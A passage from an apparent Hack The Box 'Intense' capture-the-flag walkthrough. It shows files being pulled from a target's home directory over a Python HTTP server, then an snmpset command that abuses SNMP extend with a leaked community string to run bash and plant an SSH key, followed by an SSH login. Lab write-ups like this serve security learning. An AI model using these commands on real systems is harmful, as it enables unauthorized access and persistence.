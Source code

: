 ```text
drwx------ 3 user user  4096 Nov 16  2019 .gnupg
-rwxrwxr-x 1 user user 13152 Nov 16  2019 note_server
-rw-r--r-- 1 user user  3928 Nov 16  2019 note_server.c
-rw-r--r-- 1 user user   807 Apr  4  2018 .profile
-rw-r--r-- 1 root root    75 Nov 23  2019 .selected_editor
drwxr-xr-x 2 user user  4096 Jun 29 09:31 .ssh
-rw-r--r-- 1 user user     0 Nov 16  2019 .sudo_as_admin_successful
-r--r--r-- 1 root root    33 Nov 16  2019 user.txt
-rw------- 1 root root 12427 Nov 23  2019 .viminfo
Debian-snmp@intense:/home/user$ python3 -m http.server 8099
python3 -m http.server 8099
Serving HTTP on 0.0.0.0 port 8099 (http://0.0.0.0:8099/) ...
10.10.15.100 - - [07/Nov/2020 18:25:43] "GET /note_server HTTP/1.1" 200 -
10.10.15.100 - - [07/Nov/2020 18:25:47] "GET /note_server.c HTTP/1.1" 200 -
10.10.15.100 - - [07/Nov/2020 18:26:00] "GET /user.txt HTTP/1.1" 200 -
```

Downloaded a few interesting files from `user`'s home folder...then lost my shell again when I cancelled the http server \(right after I realized I should have put my ssh key there!\)

TODO: Where is the note\_server.c code?

```text

```

Analysis of the note\_server.c code showed me that the program was looking for a connection to `127.0.0.1` on port 5001.  

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.10.10.195 'nsExtendStatus."command"' = createAndGo 'nsExtendCommand."command"' = '/bin/bash' 'nsExtendArgs."command"' = "-c \"/bin/echo ${ssh_key} >> ~/.ssh/authorized_keys\""
NET-SNMP-EXTEND-MIB::nsExtendStatus."command" = INTEGER: createAndGo(4)
NET-SNMP-EXTEND-MIB::nsExtendCommand."command" = STRING: /bin/bash
NET-SNMP-EXTEND-MIB::nsExtendArgs."command" = STRING: -c "/bin/echo ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPbT4GbSUckWcD775fh2EvAIst9754Yn0+88VlmfbV9qXiCEUeCrHXiEFc1KYDYnx/3CEUgu8gby04mHtBdP6n8= zweilos@kali >> ~/.ssh/authorized_keys"
```

I tried echoing my ssh key to `user` but got a permission denied error, so I tried to see if I could do the same for the `Debian-snmp` user, and got partial success

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ ssh -i intense.key Debian-snmp@10.10.10.195                                                   255 ⨯
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Nov  7 18:50:59 UTC 2020

  System load:  0.05              Processes:             172
  Usage of /:   6.2% of 39.12GB   Users logged in:       0
  Memory usage: 7%                IP address for ens160: 10.10.10.195
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

181 packages can be updated.
```